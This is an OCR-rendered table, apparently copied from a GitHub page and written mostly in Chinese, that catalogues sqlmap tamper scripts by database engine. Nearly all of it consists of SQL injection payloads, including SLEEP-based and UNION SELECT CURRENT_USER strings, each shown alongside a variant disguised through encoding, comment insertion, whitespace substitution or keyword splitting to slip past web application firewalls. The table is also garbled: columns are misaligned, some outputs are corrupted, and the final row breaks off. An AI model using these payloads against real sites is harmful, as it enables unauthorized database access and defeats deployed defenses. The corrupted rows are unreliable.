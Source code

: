 | 支持的数据库    | 编号                         | 脚本名称                                                     | 作用                                                         | 实现方式                                                     |
| --------------- | ---------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| all             | 1                            | apostrophemask.py                                            | 用utf8代替引号                                               | ("1 AND '1'='1")   '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'    |
| 2               | base64encode.py              | 用base64编码替换                                             | ("1' AND SLEEP(5)#")  'MScgQU5EIFNMRUVQKDUpIw=='             |                                                              |
| 3               | multiplespaces.py            | 围绕SQL关键字添加多个空格                                    | ('1 UNION SELECT foobar')  '1    UNION     SELECT   foobar'  |                                                              |
| 4               | space2plus.py                | 用+替换空格                                                  | ('SELECT id FROM users')  'SELECT+id+FROM+users'             |                                                              |
| 5               | nonrecursivereplacement.py   | 双重查询语句。取代predefined SQL关键字with表示   suitable for替代（例如  .replace（“SELECT”、”")） filters | ('1 UNION SELECT 2--')  '1 UNIOUNIONN SELESELECTCT 2--'      |                                                              |
| 6               | space2randomblank.py         | 代替空格字符（“”）从一个随机的空  白字符可选字符的有效集     | ('SELECT id FROM users')  'SELECT%0Did%0DFROM%0Ausers'       |                                                              |
| 7               | unionalltounion.py           | 替换UNION ALL SELECT UNION SELECT                            | ('-1 UNION ALL SELECT')  '-1 UNION SELECT'                   |                                                              |
| 8               | securesphere.py              | 追加特制的字符串                                             | ('1 AND 1=1')  "1 AND 1=1 and '0having'='0having'"           |                                                              |
| mssql           | 1                            | space2hash.py                                                | 绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’） | '1 AND 9227=9227'   '1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227' |
| 2               | equaltolike.py               | like 代替等号                                                | * Input: SELECT * FROM users WHERE id=1   2 * Output: SELECT * FROM users WHERE id LIKE 1 |                                                              |
| 3               | space2mssqlblank.py(mssql)   | 空格替换为其它空符号                                         | Input: SELECT id FROM users  Output: SELECT%08id%02FROM%0Fusers |                                                              |
| 4               | space2mssqlhash.py           | 替换空格                                                     | ('1 AND 9227=9227')  '1%23%0AAND%23%0A9227=9227'             |                                                              |
| 5               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--')  '1 AND A NOT BETWEEN 0 AND B--'           |                                                              |
| 6               | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE  * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |                                                              |
| 7               | sp_password.py               | 追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾     | ('1 AND 9227=9227-- ')  '1 AND 9227=9227-- sp_password'      |                                                              |
| 8               | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE  * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |                                                              |
| 9               | randomcase.py                | 随机大小写                                                   | * Input: INSERT  * Output: InsERt                            |                                                              |
| 10              | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE  * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |                                                              |
| 11              | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users  * Output: SELECT//id//FROM/**/users |                                                              |
| mysql >= 5.1.13 | 1                            | equaltolike.py                                               | like 代替等号                                                | * Input: SELECT * FROM users WHERE id=1   2 * Output: SELECT * FROM users WHERE id LIKE 1 |
| 2               | greatest.py                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B')  '1 AND GREATEST(A,B+1)=A'                   |                                                              |
| 3               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")   '1 AND %00%271%00%27=%00%271'       |                                                              |
| 4               | ifnull2ifisnull.py           | 绕过对 IFNULL 过滤。  替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’ | ('IFNULL(1, 2)')  'IF(ISNULL(1),2,1)'                        |                                                              |
| 5               | space2mssqlhash.py           | 替换空格                                                     | ('1 AND 9227=9227')  '1%23%0AAND%23%0A9227=9227'             |                                                              |
| 6               | modsecurityversioned.py      | 过滤空格，包含完整的查询版本注释                             | ('1 AND 2>1--')  '1 /*!30874AND 2>1*/--'                     |                                                              |
| 7               | space2mysqlblank.py          | 空格替换其它空白符号(mysql)                                  | Input: SELECT id FROM users  Output: SELECT%0Bid%0BFROM%A0users |                                                              |
| 8               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--')  '1 AND A NOT BETWEEN 0 AND B--'           |                                                              |
| 9               | modsecurityzeroversioned.py  | 包含了完整的查询与零版本注释                                 | ('1 AND 2>1--')  '1 /*!00000AND 2>1*/--'                     |                                                              |
| 10              | space2mysqldash.py           | 替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’） | ('1 AND 9227=9227')  '1--%0AAND--%0A9227=9227'               |                                                              |
| 11              | bluecoat.py                  | 代替空格字符后与一个有效的随机空白字符的SQL语句。  然后替换=为like | ('SELECT id FROM users where id = 1')  'SELECT%09id FROM users where id LIKE 1' |                                                              |
| 12              | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE  * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |                                                              |
| 13              | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE  * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |                                                              |
| 14              | randomcase.py                | 随机大小写                                                   | * Input: INSERT  * Output: InsERt                            |                                                              |
| 15              | versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#  * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))# |                                                              |
| 16              | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users  * Output: SELECT//id//FROM/**/users |                                                              |
| 17              | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE  * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |                                                              |
| 18              | versionedmorekeywords.py     | 注释绕过                                                     | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#  * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# |                                                              |
| MySQL < 5.1     | 19                           | halfversionedmorekeywords.py                                 | 关键字前加注释                                               | * Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa  * Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa |
| 20              | halfversionedmorekeywords.py | 当数据库为mysql时绕过防火墙，每个关键字之前添加  mysql版本评论 | 1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")  2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |                                                              |
| MySQL >= 5.1.13 | 21                           | space2morehash.py                                            | 空格替换为 #号 以及更多随机字符串 换行符                     | * Input: 1 AND 9227=9227  * Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 |
| Oracle          | 1                            | greatest.py                                                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B')  '1 AND GREATEST(A,B+1)=A'                   |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")   '1 AND %00%271%00%27=%00%271'       |                                                              |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--')  '1 AND A NOT BETWEEN 0 AND B--'           |                                                              |
| 4               | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE  * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |                                                              |
| 5               | randomcase.py                | 随机大小写                                                   | * Input: INSERT  * Output: InsERt                            |                                                              |
| 6               | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE  * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |                                                              |
| 7               | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users  * Output: SELECT//id//FROM/**/users |                                                              |
| PostgreSQL      | 1                            | greatest.py                                                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B')  '1 AND GREATEST(A,B+1)=A'                   |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")   '1 AND %00%271%00%27=%00%271'       |                                                              |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--')  '1 AND A NOT BETWEEN 0 AND B--'           |                                                              |
| 4               | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE  * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |                                                              |
| 5               | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE  * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |                                                              |
| 6               | randomcase.py                | 随机大小写                                                   | * Input: INSERT  * Output: InsERt                            |                                                              |
| 7               | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE  * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |                                                              |
| 8               | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users  * Output: SELECT//id//FROM/**/users |                                                              |
| Access          | 1                            | appendnullbyte.py                                            | 在有效负荷结束位置加载零字节字符编码                         | ('1 AND 1=1')  '1 AND 1=1%00'                                |
| 其他            |                              | chardoubleencode.py                                          | 双url编码(不处理以编码的)                                    | * Input: SELECT FIELD FROM%20TABLE  * Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545 |
|                 | unmagicquotes.py             | 宽字符绕过 GPC  addslashes                                   | * Input: 1′ AND 1=1  * Output: 1%bf%27 AND 1=1–%20           |                                                              |
|                 | randomcomments.py            | 用/**/分割sql关键字                                          | ‘INSE                                                        |                                                              |